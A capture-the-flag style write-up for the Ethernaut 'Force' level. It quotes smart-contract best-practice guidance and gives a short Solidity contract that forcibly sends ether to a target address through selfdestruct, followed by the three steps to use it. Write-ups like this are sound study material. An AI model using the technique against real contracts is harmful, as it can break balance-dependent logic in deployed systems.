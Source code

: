 # 7. Force
Some contracts will simply not take your money ¯\_(ツ)_/¯

The goal of this level is to make the balance of the contract greater than zero.

  Things that might help:

    Fallback methods
    Sometimes the best way to attack a contract is with another contract.
    See the Help page above, section "Beyond the console"

https://consensys.github.io/smart-contract-best-practices/recommendations/
"An attacker can forcibly send ether to any account and this cannot be prevented (not even with a fallback function that does a `revert()`).

The attacker can do this by creating a contract, funding it with 1 wei, and invoking `selfdestruct(victimAddress)`. No code is invoked in `victimAddress`, so it cannot be prevented. This is also true for block reward which is sent to the address of the miner, which can be any arbitrary address."

ForceNewBalance.sol
```
// SPDX-License-Identifier: MIT                                                 pragma solidity ^0.6.0;                                                                                                                                         contract ForceNewBalance {

	receive() external payable {}                                                 
	function getBalance() public view returns (uint) {
		return address(this).balance;                                           
	}
	
	function forceSend(address payable _address) public payable {           
	
		selfdestruct(_address);
	}
}

```
- create contract
- send eth
- use forceSend(targetAddress) to invoke selfdestruct(targetAddress)

**END**
An attacker can forcibly send ether to any account and this cannot be prevented (not even with a fallback function that does a `revert()`).

The attacker can do this by creating a contract, funding it with 1 wei, and invoking `selfdestruct(victimAddress)`. No code is invoked in `victimAddress`, so it cannot be prevented. This is also true for block reward which is sent to the address of the miner, which can be any arbitrary address.